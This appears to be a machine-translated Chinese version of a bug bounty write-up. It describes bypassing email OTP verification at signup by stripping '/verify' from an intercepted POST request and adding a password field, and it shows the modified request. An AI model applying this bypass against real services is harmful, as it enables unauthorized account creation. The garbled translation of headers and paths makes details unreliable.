

# 通过强制浏览绕过 2FA

> 原文：<https://infosecwriteups.com/2fa-bypass-via-forced-browsing-9e511dfdb8df?source=collection_archive---------0----------------------->

来自 avinetworks.com 的照片

嗨读者们！

我是 Akhil，一个学生和虫子赏金猎人。今天，我想分享我在一个私人程序中发现的一个发现，我能够绕过应用程序实现的电子邮件验证阶段。

在开始之前，让我告诉你-

# **强制浏览** :-

强制浏览是一种针对保护不当的网站和 web 应用程序的攻击技术，它允许攻击者访问他们不应该访问的资源。强制浏览是一种常见的由粗心编码引起的 web 应用程序安全问题。

**参考:**

 [## 什么是强制浏览| Acunetix

### 强制浏览，也称为强制浏览，是一种针对保护不力的网站和网页的攻击技术

www.acunetix.com](https://www.acunetix.com/blog/web-security-zone/what-is-forced-browsing/) 

让我们开始吧:

让我们把目标看作是 redacted.com 的

# **正常注册流程:**

**为了创建一个新帐户，用户必须输入发送到电子邮件地址的 6 位动态口令。只有当用户输入有效的动态口令时，才会为该电子邮件地址创建有效的帐户。**

**但是，我观察到，通过强制浏览，可以使用任何电子邮件地址创建一个有效的帐户，而无需进入动态口令。**

# ****剥削:****

**1)导航至注册页面
2)点击**使用电子邮件**注册 3)填写所有详细信息，如用户名、电子邮件地址&密码。
4)现在，打开打嗝拦截。
5)点击**创建账户**
6)捕获向端点发出的特定 POST 请求**POST/_ API/sign up/verify****

**现在从 POST 请求中移除**/验证****

**在帖子请求的正文中添加**“密码”:“any password”**没有任何语法错误。最终的请求应该如下所示**

****POST/_ Ajax/sign up**HTTP/1.1
主机:www.redacted.com
用户代理:Mozilla/5.0(Windows NT 10.0；Win64x64rv:88.0)壁虎/20100101 火狐/88.0
接受:*/*
接受-语言:en-US，en；q=0.5
接受-编码:gzip，deflate
引用者:https://www.redacted.com/en_in/
内容-类型:application/JSON；charset = UTF-8
Content-Length:94
产地:https://www.redacted.com
DNT:1
连接:关闭**

**{"xxxx":"xxxxx "，" sxxxxe":"xx-xx-xx "，" email":"asalsflab@gmails.com "，**" Password ":" Password @ 123 "**}**

**将修改后的请求传递给服务器。**

**现在，导航到登录页面，使用电子邮件地址和密码登录。**

**希望你们喜欢！**

> **如果你有任何疑问，请在下面的评论区告诉我，或者**
> 
> **推特::[https://twitter.com/a_k_h_i_l__K](https://twitter.com/a_k_h_i_l__K)**
> 
> **LinkedIn::[https://www.linkedin.com/in/akhil-kommineni/](https://www.linkedin.com/in/akhil-kommineni/)**

**回头见。直到下次**